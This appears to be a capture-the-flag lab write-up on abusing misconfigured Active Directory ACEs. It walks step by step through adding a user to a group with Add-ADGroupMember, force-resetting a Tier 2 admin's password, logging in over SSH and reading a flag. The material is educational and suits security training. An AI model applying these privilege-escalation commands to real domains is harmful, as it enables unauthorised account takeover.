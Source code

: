 # Permission Delegation

Active Directory can delegate permissions and privileges through a feature called Permission Delegation.

- Exploits are referred to as ACL-based attacks
- AD allows administrators to configure Access Control Entries (ACEs) that populate Discretionary Access Control Lists (DACLs), hence the name ACL-based attacks
- Any AD object can be secured with ACE
- ACEs describe the allowed/denied permissions that any other AD object has against the target object

- if any ACEs are misconfigured, it may be possible for an attacker to exploit them

Example:
- IT Support team are granted ForceChangePassword ACE over Domain Users group, this would be considered insecure
- Misconfiguration would allow them to reset passwords for privileged accounts

# Exploiting ACEs
- Significant amount of ACEs can be misconfigured

- Bloodhound documentation assists in explaining enumerated ACEs and how they can be exploited

https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#

### ForceChangePassword
- Ability to set the user's current password without knowing their current password

### AddMembers
- Ability to add users, groups, or computers to the target group

### GenericAll
- Control over the object
- Ability to change the user's password, register an SPN
- Add AD object to the target group

### Generic Write
- Update any non-protected parameters of our target object
- Update the scriptPath parameter, which would cause a script to execute the next time the user logs on

### Write Owner
- Ability to update the owner of the target object
- Ability to assign ourselves as the owner, allowing us to gain additional permissions over the object

### Write DACL
- Ability to write new ACEs to the target object DACL
- Write ACE that grants our account full control over the target object

### AllExtendedRights
- Perform any action associated with extended AD rights against the target object



In order to exploit these ACEs, we need a method to interact with AD to make these requests:
- AD-RSAT PowerShell
- PowerSploit

# Bloodhound
Use the files provided in the room and upload to Bloodhound

<pre>sudo neo4j console start </pre>

![Alt text](../../Images/Bloodhound.png)

# Privilege Escalation

- justin.barnes is a member of Domain Users
- Domain is tiered
- Need to compromise the Tier 2 Admins group since this group has administrative privileges on all workstations

![Alt text](<../../Images/Justin Barnes Membership.png>)

- Administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users group with AddMembers ACE
- Any member of the Domain Users group can add accounts to the IT Support group
- IT Support group has the ForceChangePassword ACE for Tier 2 Admin group members

![Alt text](<../../Images/Justin Barnes Membership #2.png>)

## AddMembers
- Add our AD account (justin.barnes) to IT Support group

<pre>PS C:\>Add-ADGroupMember "IT Support" -Members "justin.barnes" </pre>

- Verify that justin.barnes has been added to IT Support group

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "IT Support" | select name

name             
----
brenda.black
reece.noble
paula.bailey
barbara.reid
christine.hall
irene.leach
ruth.dale
adrian.boyle
michael.cameron
nicholas.pearson
justin.barnes
max.smith
 </pre>

 ## ForceChangePassword
- justin.barnes is now a member of IT Support group
- Inherit the ForceChangePassword Permission Delegation over Tier 2 Admin group
- Identify the members of this group to select a target

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "Tier 2 Admins" | select name

name               
----
t2_lawrence.lewis
t2_leon.francis
t2_henry.harvey
t2_june.russell
t2_kathleen.mills
t2_irene.nash
t2_henry.shaw
t2_alan.riley
t2_jordan.hawkins
t2_ross.bird
t2_robin.wyatt
t2_caroline.dawson
t2_melanie.davies
 </pre>

 - Target account: t2_robin.wyatt
 - Use the Set-ADAccountPassword AD-RSAT cmdlet to force change the password

 <pre>PS C:\Users\justin.barnes> $Password = ConvertTo-SecureString "Password.123" -AsPlainText -Force

PS C:\Users\justin.barnes> Set-ADAccountPassword -Identity "t2_robin.wyatt" -Reset -NewPassword $Password </pre>

- Authenticate to THMWRK1 (10.200.63.248) using account t2_robin.wyatt

<pre>ssh t2_robin.wyatt"10.200.63.248</pre>

<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>whoami
za\t2_robin.wyatt</pre>

What is the value of the flag stored on the Desktop of the Administrator user on THMWRK1 (flag1.txt)?
<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>cd C:\Users\Administrator\Desktop

za\t2_robin.wyatt@THMWRK1 C:\Users\Administrator\Desktop>more flag1.txt
THM{Permission.Delegation.FTW!}
</pre>